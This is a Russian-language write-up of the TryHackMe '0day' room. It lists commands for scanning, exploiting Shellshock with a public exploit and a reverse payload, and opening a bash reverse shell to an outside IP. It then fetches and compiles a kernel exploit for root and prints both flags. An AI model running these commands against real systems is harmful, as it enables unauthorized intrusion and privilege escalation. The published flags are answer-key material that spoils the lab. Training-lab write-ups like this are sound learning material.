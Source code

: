 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [0day](https://tryhackme.com/r/room/0day) 

Всего 1 заданиe:
## Задание 1
Получите root-доступ к моему защищенному веб-сайту, сделайте шаг в историю взлома.

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sSVC <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
nikto -h http://<IP>
searchsploit shellshock
searchsploit -m linux/remote/34900.py
python2.7 34900.py payload=reverse rhost=<IP> lhost=<my_own_IP> lport=4444
nc -lvnp 4445 
bash -i >& /dev/tcp/10.2.81.7/4445 0>&1
ls -la
whoami
cat /etc/passwd
cd /home/ryan
ls -la
cat user.txt
```
```commandline
THM{Sh3llSh0ck_r0ckz}
```
корень.txt
```commandline
uname -a
https://www.exploit-db.com/exploits/37292
vim 37292.c
wget http://<my_own_IP>/37292.c
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
gcc 37292.c -o ofs
./ofs
whoami
cat /root/root.txt
```
```commandline
THM{g00d_j0b_0day_is_Pleased}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)